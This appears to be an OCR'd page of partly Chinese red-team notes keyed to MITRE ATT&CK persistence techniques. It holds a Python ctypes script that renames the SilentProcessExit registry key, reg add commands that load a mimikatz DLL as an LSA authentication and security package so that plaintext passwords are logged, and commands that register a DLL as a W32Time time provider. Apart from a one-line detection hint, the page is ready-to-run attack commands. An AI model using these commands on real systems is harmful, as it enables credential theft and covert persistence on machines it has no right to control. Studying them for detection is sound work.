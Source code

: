 ```plain
import ctypes
from ctypes import *
from ctypes.wintypes import *
import sys

help = """python2 {}.py rename_key "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit" "123123"\n""".format(sys.argv[0])
help += """python2 {}.py rename_key "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\123123" "SilentProcessExit"\n""".format(sys.argv[0])

list1 = {"hkcr":-2147483648,"hkcu":-2147483647,"hklm":-2147483646,"hkus":-2147483645,"hkcc":-2147483643}

def rename_key(reg_handle, key,key2):
    key_handle = HKEY()
    key_result = DWORD()
    a = ctypes.windll.Advapi32.RegCreateKeyExA(reg_handle, key, 0, None, 0x00000000, 0xF003F, 0, byref(key_handle),byref(key_result))
    print(a)
    c = ctypes.windll.Advapi32.RegRenameKey(key_handle, 0,LPCWSTR(key2))
    print(c)

if __name__ == "__main__":
    if len(sys.argv) != 1:
        if sys.argv[1] == "rename_key":
            str = sys.argv[2].split("\\",1)
            rename_key(list1[str[0]],str[1],sys.argv[3])
        else:
            print(help)
    else:
        print(help)
```

# T1547.002&&005 (modify authentication packages)

reg add "hklm\\system\\currentcontrolset\\control\\lsa\\" /v "authentication packages" /d "C:\\Users\\congya\\desktop\\mimi.dll" /t REG\_MULTI\_SZ  
reg add "hklm\\system\\currentcontrolset\\control\\lsa\\" /v "Security Packages" /d "C:\\Users\\congya\\desktop\\mimi.dll" /t REG\_MULTI\_SZ  
这个 mimi.dll 就是 mimikatz 里面的，将此 dll 修改到注册表中，重启后会看见相关密码明文（C:\\Windows\\system32\\kiwissp.log）  
检测方式，对相关注册表进行检测

# T1547.003 (modify time providers)

reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\W32Time\\TimeProviders\\NtpClient" /v DllName /t REG\_EXPAND\_SZ /d "C:\\Users\\axingg\\Downloads\\w32time.dll"  
reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\W32Time\\TimeProviders\\NtpServer" /v DllName /t REG\_EXPAND\_SZ /d "C:\\Users\\axingg\\Downloads\\w32time.dll"  